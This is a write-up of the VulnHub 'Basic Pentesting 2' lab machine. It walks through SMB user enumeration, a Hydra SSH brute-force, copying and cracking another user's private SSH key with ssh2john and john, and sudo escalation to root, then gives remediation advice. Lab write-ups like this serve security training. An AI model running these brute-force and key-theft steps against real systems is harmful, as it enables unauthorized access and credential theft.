

# Basic Pentesting 2 — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./Basic_Pentesting_2_Professional_Writeup.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Basic Pentesting 2 (VulnHub) |
| **Target IP** | `10.10.10.5` |
| **Attacker IP** | `10.10.10.3` |
| **Target OS** | Linux (Ubuntu) |
| **Difficulty** | Easy / Intermediate |
| **Assessment Type** | Network Penetration Test |
| **Key Concepts** | SMB User Enumeration, SSH Password Brute-Forcing, World-Readable SSH Keys, SSH Passphrase Cracking (`ssh2john`), Sudo Abuse |
| **Initial Foothold** | SSH Brute-Forcing User `jan` |
| **Lateral Movement** | Recovering User `kay`'s Private Key (`id_rsa`) |
| **Privilege Escalation** | Sudo Privileges (`(ALL : ALL) ALL`) -> `root` |

---

## 🎯 Attack Chain



---

## 🔍 Vulnerability Summary

| Vulnerability | Severity | Service / Port | Impact |
| :--- | :---: | :---: | :---: |
| **Weak Password for User jan** | High | Port 22 (SSH) | Unauthorized Remote SSH Access |
| **Insecure File Permissions on SSH Key** | High | File System (`/home/kay/.ssh/id_rsa`) | Horizontal Privilege Escalation to User `kay` |
| **Full Sudo Privileges for User kay** | Critical | Local Configuration (`/etc/sudoers`) | Complete Root Compromise |

---

## 🛠️ Step-by-Step Walkthrough

### Phase 1: Reconnaissance & SMB Enumeration

Scan the target with Nmap:
```bash
nmap -sV -sC -p- -T4 10.10.10.5
```
Open ports: `22/tcp` (OpenSSH 7.2p2), `80/tcp` (Apache), `139/445/tcp` (Samba).

Enumerate users via SMB using `enum4linux` or `nmap` SMB scripts:
```bash
nmap --script smb-enum-users.nse -p 445 10.10.10.5
```
Discovered active local accounts:
* `jan`
* `kay`

### Phase 2: SSH Brute-Forcing for Initial Access

Brute-forcing SSH for user `jan` using Hydra:
```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.5
```
Credentials found:
* **Username:** `jan`
* **Password:** `armando`

Log in via SSH:
```bash
ssh jan@10.10.10.5
```

### Phase 3: Lateral Movement to User kay

Inspect `/home`:
```bash
ls -la /home/kay
```
We observe that `kay`'s home directory and `.ssh` folder have overly permissive read permissions.
We locate `kay`'s private key at `/home/kay/.ssh/id_rsa` and copy it to our attacking machine.

The key is protected with a passphrase. Convert it with `ssh2john`:
```bash
ssh2john id_rsa > kay_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash.txt
```
Password cracked:
* **Passphrase:** `beeswax`

### Phase 4: Privilege Escalation to Root

Log into the target machine as `kay` using the decrypted private key:
```bash
chmod 600 id_rsa
ssh -i id_rsa kay@10.10.10.5
```
*(Enter passphrase: `beeswax`)*

Check sudo permissions for `kay`:
```bash
sudo -l
```
Output:
```text
User kay may run the following commands on basic2:
    (ALL : ALL) ALL
```
Spawn a root shell:
```bash
sudo su -
whoami
root
```
Full administrative compromise achieved!

---

## 🛡️ Remediation & Defensive Recommendations

1. **Enforce Strong Passwords:** Require multi-character, non-dictionary passwords for all interactive users.
2. **Harden Home Directory Permissions:** Run `chmod 700 /home/*` and enforce `chmod 600 ~/.ssh/id_rsa`.
3. **Audit Sudoers:** Never grant unconditional `(ALL : ALL) ALL` without multi-factor authentication or scoped commands.
